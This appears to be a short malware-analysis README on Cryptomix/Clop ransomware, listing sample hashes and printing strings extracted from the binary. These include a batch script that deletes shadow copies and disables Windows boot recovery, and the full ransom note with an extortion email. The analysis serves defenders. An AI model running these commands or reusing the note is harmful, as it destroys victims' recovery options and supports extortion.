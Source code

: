 # cryptomix-clop-ransomware

Cryptomix Ransomware Mal Helper

Packed Digital Signed Crypted Bin:
```SHA-256: 10f4be34c2e41e6c2d4932ab77f189cf5da659abd028537604eae6435c83516a`
Unpacked Ransomware Bin:
```SHA-256: 79b8c37a5e2a32e8f7e000822cec6f2f4e317620a2296f1aa3f35b2374c396ec```
Reference: https://twitter.com/malwrhunterteam/status/1098578106112245760

```bytearray(b'@echo off\r\nvssadmin Delete Shadows /all /quiet\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded\r\nvssadmin Delete Shadows /all /quiet\t\t\r\nbcdedit /set {default} recoveryenabled No\r\nbcdedit /set {default} bootstatuspolicy ignoreallfailures\t ')```

```bytearray(b'!Your networks has been penetrated!\r\nAll files on each host in the network have been encrypted with a strong algorithm!!!\r\nBackups were either encrypted or deleted or backup disks were formatted!!!\r\nShadow copies also removed, so F8 or any other methods may damage encrypted data but not recover!!!\r\nWe exclusively have decryption software for your situation.\r\nNo DECRYPTION software is AVAILABLE in the PUBLIC.\r\n* DO NOT DELETE readme files.\r\n* DO NOT RENAME OR MOVE the encrypted and readme files.\r\n* DO NOT RESET OR SHUTDOWN \xe2\x80\x93 files may be damaged.\r\n!!!THIS MAY LEAD TO THE IMPOSSIBILITY OF RECOVERY OF THE CERTAIN FILES!!!\r\n!!!ALL REPAIR TOOLS ARE USELESS AND CAN DESTROY YOUR FILES IRREVERSIBLY!!!\r\nIf you want to restore your files write to emails. \r\n[CONTACTS ARE AT THE BOTTOM OF THE SHEET] and attach 2 - 3 encrypted files.\r\n[Less than 6 Mb each, non-archived and your files should not contain valuable information\r\n[Databases, backups, large excel sheets, etc.]]!\r\n!!You will receive decrypted samples and our conditions how to get the decoder!!!\r\n\r\n***ATTENTION***\r\n!!!YOUR WARRANTY  -  DECRYPTED SAMPLES!!!\r\nDO NOT TRY TO DECRYPT YOUR DATA USING THIRD PARTY SOFTWARE!!!\r\nWE DON`T NEED YOUR FILES AND YOUR INFORMATION!!!\r\n\r\nContacts E-MAIL: \r\nunlock@eqaltech.su \r\n\r\n***THE FINAL PRICE DEPENDS ON HOW FAST YOU WRITE TO US***\r\n===Nothing personal just business===  Clop^_-')```
